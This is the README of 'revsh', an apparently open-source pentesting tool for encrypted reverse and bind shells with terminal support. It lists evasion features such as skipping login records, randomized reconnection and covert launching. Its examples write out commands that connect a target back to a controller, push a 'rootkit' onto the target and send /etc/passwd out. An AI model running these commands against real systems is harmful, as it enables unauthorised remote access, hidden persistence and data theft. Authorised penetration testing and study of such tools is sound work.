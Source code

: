 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~50k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	usage:    revsh [-c [-a] [-d KEYS_DIR] [-f RC_FILE]] [-s SHELL] [-t SEC] [-r SEC1[,SEC2]] [-b [-k]] [-n] [-v] [ADDRESS:PORT]

	  -c              Run in command and control mode.                 (Default is target mode.)
	  -a              Enable Anonymous Diffie-Hellman mode.            (Default is "!ADH:DHE-RSA-AES256-SHA".)
	  -d KEYS_DIR     Reference the keys in an alternate directory.    (Default is "~/.revsh/keys/".)
	  -f RC_FILE      Reference an alternate rc file.                  (Default is "~/.revsh/rc".)
	  -s SHELL        Invoke SHELL as the remote shell.                (Default is "/bin/bash".)
	  -t SEC          Set the connection timeout to SEC seconds.       (Default is "3600".)
	  -r SEC1,SEC2    Set the retry time to be SEC1 seconds, or        (Default is "600,1200".)
	                  to be random in the range from SEC1 to SEC2.
	  -b              Start in bind shell mode.                        (Default is reverse shell mode.)
	  -k              Start the bind shell in keep-alive mode.         (Ignored in reverse shell mode.)
	  -n              Non-interactive netcat style data broker.        (Default is interactive w/remote tty.)
	                  No tty. Useful for copying files.
	  -v              Verbose output.
	  -h              Print this help.
	  ADDRESS:PORT    The address and port of the listening socket.    (Default is "127.0.0.1:9999".)

	  Notes:
	      * The -b flag must be invoked on both the control and target hosts to enable bind shell mode.
	      * Bind shell mode can also be enabled by invoking the binary as 'bindsh' instead of 'revsh'.
	      * Verbose output may mix with data if -v is used together with -n.

	  Interactive example:
	      local controller host:    revsh -c 192.168.0.42:443
	      remote target host:       revsh 192.168.0.42:443

	  Non-interactive example:
	      local controller host:    cat ~/bin/rootkit | revsh -n -c 192.168.0.42:443
	      remote target host:       revsh 192.168.0.42:443 > ./totally_not_a_rootkit


## Example ##

First, setup the local host to be the command and control host (e.g. "monkey"):

	empty@monkey:~$ revsh -c 192.168.0.42:9999

Then connect out from the remote target host (e.g. "kitty"):

	target@kitty:~$ ./revsh 192.168.0.42:9999

We will now find a shell waiting for us back at the control host:

	Listening on 192.168.0.42:9999...  Connected!
	 Remote fingerprint expected: 09a348e737b96961d7ff9d55f958e771828f839e
	 Remote fingerprint received: 09a348e737b96961d7ff9d55f958e771828f839e
	Initializing... Done!
	
	################################
	# hostname: kitty
	# ip address: 192.168.0.123
	# real user: target
	# effective user: target
	################################
	target@kitty:/$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 1538 Jul 18 22:50 /etc/passwd
	target@kitty:/$

Note, if you configured the binary at build time to change the IP:PORT address to 192.168.0.42:9999, then the above example becomes even cleaner:

	empty@monkey:~$ revsh -c
	target@kitty:~$ ./revsh

For a covert reverse shell, _revsh_ can be invoked from within [_mimic_](https://github.com/emptymonkey/mimic) on the target host:

	empty@monkey:~$ revsh -c
	target@kitty:~$ ./mimic -q -e './revsh -s "./mimic -e /bin/bash"'

For netcat style data transfer (with all of the crypto benefits of _revsh_) invoke _revsh_ with the -n switch. This is useful for moving tools on to the target host:

	empty@monkey:~$ cat rootkit.tar | ./revsh -c -n
	target@kitty:~$ ./revsh >./totally_not_a_rootkit.tar
	

Or for moving data out from the target host:

	empty@monkey:~$ revsh -c
	target@kitty:~$ cat /etc/passwd | ./revsh -n


## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	cd ~/.revsh
	vi rc              # Add your favorite startup commands to really customize the feel of your remote shell.
	./revsh -h

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

